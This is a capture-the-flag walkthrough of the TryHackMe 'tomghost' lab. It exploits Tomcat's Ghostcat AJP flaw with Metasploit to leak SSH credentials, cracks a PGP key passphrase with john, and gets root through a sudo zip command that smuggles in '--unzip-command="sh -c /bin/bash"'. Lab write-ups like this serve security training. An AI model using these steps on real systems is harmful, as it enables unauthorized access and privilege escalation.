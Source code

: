 ## Title: tomghost
### https://tryhackme.com/room/tomghost
### IP: 10.10.50.24

#### Answer the questions below:

#### Compromise this machine and obtain user.txt
Answer format: ***{********************************}

#### Escalate privileges and obtain root.txt
Answer format: ***{********************************}

#### Nmap:

22: SSH

53: tcpwrapped

8009: ajp13 - Apache Jserv

8080: http - Apache Tomcat 9.0.30

Navigating to 10.10.50:8080 is just the default Apache Tomcat page.

#### Using dirb to recursively scan and locate any interesting directories or files:

dirb http://10.10.50.24 -R

#### Found directories:

http://10.10.50.24:8080/docs

http://10.10.50.24:8080/examples

http://10.10.50.24:8080/host-manager

http://10.10.50.24:8080/manager

Nothing too interesting in these.

#### Checking exploitDB for AJP vulns:

AJP 'Ghostcat' File Read/Inclusion (Also in Metasploit)

#### Using Metasploit:

msfconsole

search AJP

use 0

info

#### Options:

AJP_PORT: 8009

FILENAME: /WEB-INF/web.xml

RHOSTS: 10.10.50.24 (Target host)

RPORT: 8080 (Apache Tomcat webserver port

SSL: false

#### Loot gathered:

skyfuck:8730281lkjlkjdqlksalks

Most likely SSH creds, trying them gets us access to skyfuck@ubuntu

#### Some quick enumeration:

ls: credential.pgp and tryhackme.asc

tryhackme.asc is the private key used to decrypt credential.pgp.

Running sudo -l and we don't have admin.

For now lets look for the user flag.

cd ..

ls: merlin & skyfuck

cd merlin

cat user.txt

#### Back to the other files. Lets copy them across with scp:

scp -p skyfuck@10.10.50.24:/home/skyfuck/tryhackme.asc tryhackme.asc

scp -p skyfuck@10.10.50.24:/home/skyfuck/credential.pgp credential.pgp

#### Using gpg2john we can turn the .asc file into a hash that john can attempt to crack:

gpg2john tryhackme.asc > tryhackme.txt

#### We can then attempt to crack this hash using john with a wordlist such as rockyou:

john -wordlist=/usr/share/wordlists/rockyou.txt.gz tryhackmeHash.txt

#### This gives us the passphrase alexandru, with this we can import the gpg key with:

gpg --import tryhackme.asc

#### And then decrypt the the credential.pgp file which gives us merlin's creds:

marlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j

#### After SSHing in with these creds:

sudo -l: We can see that merlin is able to run /usr/bin/zip as root.

#### After some research I found the following article, showing how to pass commands through Zip:

https://www.hackingarticles.in/linux-for-pentester-zip-privilege-escalation/

#### Using the following commands we can spawn a shell as root:

touch text.txt

sudo zip 1.zip text.txt -T --unzip-command="sh -c /bin/bash"

#### Now we just look for the root flag:

cd root

cat root.txt
